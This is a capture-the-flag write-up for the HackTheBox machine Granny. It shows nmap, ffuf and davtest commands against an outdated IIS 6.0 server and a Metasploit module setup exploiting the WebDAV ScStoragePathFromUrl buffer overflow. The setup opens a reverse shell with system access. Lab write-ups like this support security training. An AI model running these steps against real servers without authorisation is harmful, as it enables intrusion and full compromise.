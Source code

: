 # Granny [HTB](https://app.hackthebox.com/machines/Granny)
![granny-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/granny-01.png)

## Recon

After adding the target to our `/etc/hosts` file, we can start scanning it with:

```bash
nmap -sC -sV -A -p- granny.htb -oN nmap.results
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/nmap-res-02.png)

We have the following:

+ An IIS v6.0 server running on port 80.

It appears that the server is running an extremly outdated IIS server, as Microsoft released IIS v6.0 with
the 2003 Windows Server on May 28, 2003, which reached End-of-Life on Jul 14, 2015. [source](https://learn.microsoft.com/en-us/lifecycle/products/internet-information-services-iis) 

I'm thinking public exploits. 


### IIS Port 80

With a quick Goolge search, we can find a public exploit for IIS V6.0 on [Exploit-DB](https://www.exploit-db.com/exploits/41738): 

![payload-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/payload-03.png)

This is a python 2 script, exploiting a buffer overflow vulnerability that lays in the `ScStoragePathFromUrl` function of the `WebDAV` Microsoft standard. 

`WebDAV` is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections, which also supports file uploads to the server.  

This is not enabled by default, when you install the IIS server role, you need to check a box to enable `WebDAV`, [source](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)

The `WebDAV` interface could be on the server root directory, or it could be on a dedicated directory,  It depends on the config file. However, a common location is `/webdav` lets give it a shot:

![find-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/find-04.png)

It says the service is unavailable, maybe its disabled? Lets try directory busting to be sure:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt -u http://gra
nny.htb/FUZZ
``` 

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/ffuf-05.png)

Lets open this directory:

![vti-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/vti-06.png)

Looks interesting, but were not sure if its WebDAV enabled. We can verify this with:

```bash
davtest -url http://granny.htb/_vti_bin
```

![davtest-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/davtest-07.png)

The file upload failed, that's one exploit vector, But the `WebDAV` connection succeeded, which means we 
can try the buffer-overflow exploit we found earlier for IIS 6.0. 

I've tried the python script from exploit-DB, the issue is with the shellcode, which opens `calc.exe`, 
instead of esteblishing a reverse shell. So i found another exploit on [Github](https://github.com/danigargu/explodingcan/tree/master). This one specifies that the shellcode must be alphanumerically encoded, Iv'etried it, didnt work for me. I tried a combination of different shellcodes and exploits, nothing worked for me. 


So instead i decided to go for the Metasploit implemantation of the exploit. 

```bash
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS granny.htb
set LHOST tun0
set LPORT 443
set TARGETURI /_vti_bin
```

![options-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/options-08.png)

From here we can run `exploit`:

![root-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/root-09.png)


Not only do we get a shell, we get full system access. However do note, this is in fact a 2003 Windows 
server, the directory structure is different from modern Windows systems. The user's folders are in `C:\Documents and Stettings`. 

